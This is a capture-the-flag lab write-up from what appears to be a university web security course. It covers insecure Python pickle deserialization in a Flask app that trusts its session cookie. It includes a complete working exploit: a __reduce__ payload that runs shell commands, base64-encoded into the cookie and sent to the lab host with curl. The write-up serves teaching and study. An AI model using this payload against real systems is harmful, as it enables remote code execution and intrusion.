 ```yaml
---
title: Simple Web 0x16(Lab - Pickle)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Deserialization"
---
```


# Simple Web 0x16(Lab - Pickle)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8600/
Note: open a brand new window that haven't login `http://h4ck3r.quest`

## Background
[0x15.5(Pickle)](/IcoQql7UQiegLv8KtK2wOw)

## Source code
:::spoiler code
```pyton=
from flask import Flask, request, make_response, redirect, send_file
import base64
import pickle

app = Flask(__name__)


@app.route("/sauce")
def sauce():
    return send_file(__file__, mimetype="text/plain")


@app.route("/")
def main():
    session = request.cookies.get("session")
    if session == None:
        return '<form action="/login" method="POST">' +\
            '<p>Name: <input name="name" type="text"></p>' +\
            '<p>Age: <input name="age" type="number"></p>' +\
            '<button>Submit</button></form><hr><a href="/sauce">Source code</a>'

    else:
        user = pickle.loads(base64.b64decode(session))
        return f'<p>Name: {user["name"]}</p><p>Age: {user["age"]}</p>'


@app.route("/login", methods=['POST'])
def login():
    user = base64.b64encode(pickle.dumps({
        "name": request.form.get('name'),
        "age": int(request.form.get('age'))
    }))
    resp = make_response(redirect('/'))
    resp.set_cookie("session", user)
    return resp
```
:::
### Description & Analyze
In main function, it'll request session and parse it by `base64` then deserialize it.
If session is none, you can enter your name and age then it'll serialize the data and transfer by base64.
For example: name=123, age=123
The Cookie: session=`gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg==`
```python!
>>> pickle.loads(base64.b64decode('gASVGgAAAAAAAAB9lCiMBG5hbWWUjAMxMjOUjANhZ2WUS3t1Lg=='))
{'name': '123', 'age': 123}
```

## Exploit
1. Construct exploit function
Note that the format must be `{'name': '', 'age': ''}`
2. Payload
    ```python!
    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls',))

    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    ```
    Note that, must not use `os.system` in this situation. 'Cause in addition to the result of `os.system('{command}')`, it'll return exit status code.
    > On Unix, the return value is the exit status of the process encoded in the format specified for wait(). Note that POSIX does not specify the meaning of the return value of the C system() function, so the return value of the Python function is system-dependent.

    So that if we use `os.system` as payload directly the output will not be render correctly.
    * For instance:
        ```python!
        class exploit(object):
        def __reduce__(self):
            return (os.system, ('ls',))


        serialized = pickle.dumps({
                "name": '123',
                "age": exploit()
                })
        optim_s = base64.b64encode(serialized)
        print(pickle.loads(base64.b64decode(optim_s)))
        ```
        ```bash!
        $ python pickle_exp.py
        exploit.py  pickle_exp.py  server_app.py
        {'name': '123', 'age': 0}
        ```
        or
        You can execute it in wsl directly.
        ![](https://i.imgur.com/7XrSWl6.png)
    So, you can use `subprocess.getoutput` to fetch the outcome without exit code
    ![](https://i.imgur.com/T8kvBel.png)
3. Whole exploit
    ```python=
    import pickle
    import os
    import pickletools
    import base64

    class exploit(object):
        def __reduce__(self):
            return (__import__('subprocess').getoutput, ('ls -al /',))


    serialized = pickle.dumps({
            "name": '123',
            "age": exploit()
            })
    optim_s = pickletools.optimize(serialized)

    cookie = base64.b64encode(optim_s).decode()

    os.system(f"curl http://h4ck3r.quest:8600/ --cookie 'session={cookie}'")
    ```

## Result
![](https://i.imgur.com/UoFhBVM.png)
